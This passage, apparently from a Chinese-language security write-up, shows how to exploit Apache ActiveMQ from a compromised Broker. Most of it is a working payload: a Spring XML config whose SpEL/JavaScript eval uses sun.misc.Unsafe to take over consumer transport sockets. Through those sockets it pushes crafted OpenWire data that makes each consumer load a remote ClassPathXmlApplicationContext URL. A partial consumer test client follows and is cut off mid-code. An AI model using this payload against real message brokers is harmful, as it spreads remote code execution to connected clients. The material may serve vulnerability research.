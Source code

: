 获取到 Socket 后，直接开推恶意数据。这里通过先让 Broker 加载远程配置文件在 Broker 上实现 SPEL 代码执行后，通过代码执行获取消费者 socket 推送恶意数据，加载远程配置文件。上面也说到了消费者默认开启了 tightEncodingEnabled，所以需要使用 tightEncodingEnabled 的 Exp。经过测试，漏洞利用后不会将消费打挂。

```plain
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.0.xsd
            http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context-4.0.xsd">

    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>

    <bean class="java.lang.String">
        <property name="String" value="#{T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(&quot;function getunsafe() {var unsafe = java.lang.Class.forName('sun.misc.Unsafe').getDeclaredField('theUnsafe');unsafe.setAccessible(true);return unsafe.get(null);} var unsafe = getunsafe(); brokerRegistry = org.apache.activemq.broker.BrokerRegistry.getInstance();brokers = brokerRegistry.getBrokers();for(key in brokers){   brokerService = brokers.get(key);  try{ f = brokerService.getClass().getDeclaredField('shutdownHook'); }catch(e){f = brokerService.getClass().getSuperclass().getDeclaredField('shutdownHook');}   f.setAccessible(true);   shutdownHook = f.get(brokerService);   threadGroup = shutdownHook.getThreadGroup();   f = threadGroup.getClass().getDeclaredField('threads'); threads = unsafe.getObject(threadGroup, unsafe.objectFieldOffset(f)); for(key in threads){       thread = threads[key];       if(thread == null){           continue;       }       threadName = thread.getName();       if(threadName.startsWith('ActiveMQ Transport: ')){           f = thread.getClass().getDeclaredField('target');                      tcpTransport = unsafe.getObject(thread, unsafe.objectFieldOffset(f));           f = tcpTransport.getClass().getDeclaredField('socket');           f.setAccessible(true);           socket = f.get(tcpTransport);           bos = new java.io.ByteArrayOutputStream();           dataOutput = new java.io.DataOutputStream(bos);           dataOutput.writeInt(1);           dataOutput.writeByte(31);    bs = new org.apache.activemq.openwire.BooleanStream();    bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(false);   bs.writeBoolean(true); bs.writeBoolean(false);  bs.marshal(dataOutput); dataOutput.writeUTF('bb');  dataOutput.writeUTF('aa');  dataOutput.writeUTF('org.springframework.context.support.ClassPathXmlApplicationContext');  dataOutput.writeUTF('http://localhost:8000/dddd');  dataOutput.writeShort(0);  socketOutputStream = socket.getOutputStream();           socketOutputStream.write(bos.toByteArray());         }   }   }&quot;)}"/>
    </bean>
</beans>
```

**点对点消费测试**  

```plain
ConnectionFactory connectionFactory = new ActiveMQConnectionFactory(ActiveMQConnection.DEFAULT_USER,
        ActiveMQConnection.DEFAULT_PASSWORD, "tcp://localhost:61616");

Connection connection = connectionFactory.createConnection();
connection.start();
Session session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
Destination destination = session.createQueue("tempQueue");
MessageConsumer consumer = session.createConsumer(destination);
consumer.setMessageListener(new MessageListener() {
    @Override
    public void onMessage(Message message) {

        try {
            message.acknowledge();
            TextMessage om = (TextMessage) message;
            String data = om.getText();
            System.out.println(data);
        } catch (JMSException e) {
            e.printStackTrace();
```